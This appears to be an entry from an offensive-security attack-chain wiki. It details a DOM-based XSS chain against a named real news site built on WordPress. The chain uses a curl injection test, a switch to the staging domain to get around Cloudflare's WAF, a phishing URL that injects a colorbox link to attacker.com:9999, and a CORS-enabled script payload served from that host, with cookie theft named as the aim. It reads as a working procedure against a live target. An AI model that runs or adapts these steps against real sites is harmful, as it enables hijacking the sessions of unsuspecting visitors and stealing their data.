

---
tags:
  - xss
  - dom-xss
  - javascript
  - web
  - wordpress
  - cloudflare
type: attack_chain
tools:
  - '[[tools/curl]]'
  - '[[tools/egrep]]'
  - '[[tools/colorbox]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2024-10-01T00:00:00Z'
procedures:
  - '[[procedures/Test-HTML-Injection-in-Search-Functionality]]'
  - '[[procedures/Bypass-Cloudflare-WAF-with-Staging-Domain]]'
  - '[[procedures/Craft-Malicious-Search-URL-for-Colorbox-Exploitation]]'
  - '[[procedures/Serve-Malicious-Payload-from-Attacker-Server]]'
  - '[[procedures/Trigger-XSS-Execution-via-User-Interaction]]'
step_count: 5
techniques:
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
updated_at: '2025-12-14T03:15:31.349Z'
description: >-
  A multi-stage attack exploiting a DOM-based XSS vulnerability in the search
  parameter of a WordPress site, using the colorbox plugin to execute arbitrary
  JavaScript upon user interaction.
skill_level: intermediate
impact_level: high
id: c1ad3645-e8e4-45f0-ac4e-8627d8b133ba
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
---
# DOM-based XSS in Search Functionality via Colorbox Plugin Exploitation

Multi-stage attack chain demonstrating a complete DOM-based XSS workflow on a WordPress site hosted on wpengine.com, bypassing CloudFlare WAF and exploiting the colorbox JavaScript plugin to execute arbitrary code.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- [[tools/egrep]]
- [[tools/colorbox]]

### Target Environment

- Web platform (WordPress on wpengine.com)
- Services: CloudFlare WAF
- Ports: 9999 (for attacker server)
- Network access: Public internet to target site

### Initial Access Requirements

- No credentials required
- Public network position
- No prior access needed; relies on social engineering to lure victim

## Detailed Attack Procedures

### Step 1: Test HTML Injection
procedure: [[procedures/Test-HTML-Injection-in-Search-Functionality]]

**Objective**: Verify the DOM-based XSS vulnerability by demonstrating HTML attribute breakout in the search functionality.

**Instructions**: Use [[commands/curl-egrep-verify-xss-injection]] to send a payload and confirm injection:

```bash
curl -s 'https://www.secnews.gr?s=%27%3E%3Ctest%3E%3C' | egrep -o ".{47}?<test>.*?>"
```

**Expected Output**: `<div id="content" data-currentquery='{"s":"\\'><test><"}' class="main-content articles list sidebar-right non-full">`

**Success Indicators**:
- Payload appears unencoded in the response, confirming attribute breakout
- `<test>` tag is injected outside the attribute

### Step 2: Bypass WAF
procedure: [[procedures/Bypass-Cloudflare-WAF-with-Staging-Domain]]

**Objective**: Avoid CloudFlare WAF blocking by targeting the staging domain.

**Instructions**: Switch to the staging endpoint `secnews.wpengine.com` for testing payloads that would be blocked on the production site.

**Expected Output**: Successful request without WAF interference.

**Success Indicators**:
- Requests to staging domain complete without 403 errors
- Payload testing proceeds unblocked

### Step 3: Craft Malicious URL
procedure: [[procedures/Craft-Malicious-Search-URL-for-Colorbox-Exploitation]]

**Objective**: Create a lure URL that injects a colorbox link to an attacker-controlled server.

**Instructions**: Construct the URL `https://www.secnews.gr/?s=%27%20class%3Dcolorbox%20href=/attacker.com:9999%3E` and share it with the victim via phishing or social engineering.

**Expected Output**: Victim's browser loads the search page with an injected colorbox element pointing to the attacker's server.

**Success Indicators**:
- Victim visits the URL
- Injected HTML attribute includes the colorbox class and href

### Step 4: Serve Payload
procedure: [[procedures/Serve-Malicious-Payload-from-Attacker-Server]]

**Objective**: Host a malicious script on the attacker's server that will be loaded by the colorbox plugin.

**Instructions**: Set up a server at `attacker.com:9999` to respond with HTTP/1.1 200 OK, headers including `access-control-allow-origin: *` and body `<script>alert(document.domain)</script>`.

**Expected Output**: Server returns the script content when queried.

**Success Indicators**:
- Server accessible on port 9999
- CORS headers allow cross-origin loading

### Step 5: Trigger Execution
procedure: [[procedures/Trigger-XSS-Execution-via-User-Interaction]]

**Objective**: Cause the victim's browser to load and execute the malicious script via the colorbox plugin.

**Instructions**: Instruct or wait for the victim to click anywhere below the navigation bar on the search page, triggering the colorbox to fetch and insert the payload into the DOM.

**Expected Output**: Arbitrary JavaScript executes, e.g., alert pops up showing the domain.

**Success Indicators**:
- Script loads and runs in victim's browser
- Potential for session cookie theft or data exfiltration

## Attack Chain Summary

### Key Achievements

1. Confirmed DOM-based XSS via attribute injection
2. Bypassed CloudFlare WAF using staging domain
3. Exploited colorbox plugin for remote script execution
4. Achieved arbitrary JS execution with user interaction

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---

*Last updated: 2024-10-01T00:00:00Z*
